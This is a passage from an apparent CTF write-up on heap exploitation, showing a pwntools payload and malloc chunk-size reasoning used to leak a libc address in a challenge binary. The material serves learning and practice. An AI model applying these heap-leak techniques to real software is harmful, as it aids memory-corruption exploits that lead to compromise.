 ![heap-leaked.png](images/heap-leaked.png)

Nice! Let's move on!

### Stage 2: Leak libc address

We will want to create a large chunk, let's say a 0x500-byte chunk:

```python
payload = b'+'.ljust(4, b'\0')
payload += p32(0x200000a0)       # size
payload += p32(5)                # arg1
payload += p32(6)                # arg2
payload = payload.ljust(0x80, b'A')
p.send(payload)

payload = b'A'*0x48
p.sendafter(b'feedback:', payload)
p.recvline()
```

That chunk will then be freed and will be malloc 3 times before data is printed out. Let's say our 0x500-byte chunk now is at address `0x55f9c752d4d0`:

![get-address-of-0x500-byte-chunk.png](images/get-address-of-0x500-byte-chunk.png)

The first malloc is for `new_data`, which is 0x30 bytes (including metadata), the second malloc is for `result_str`, which is 0x90 bytes (including metadata) and the last malloc is for `obj`, which is 0x20 bytes (including metadata). So the address above have to add with these byte to get the chunk has libc after those 3 malloc:
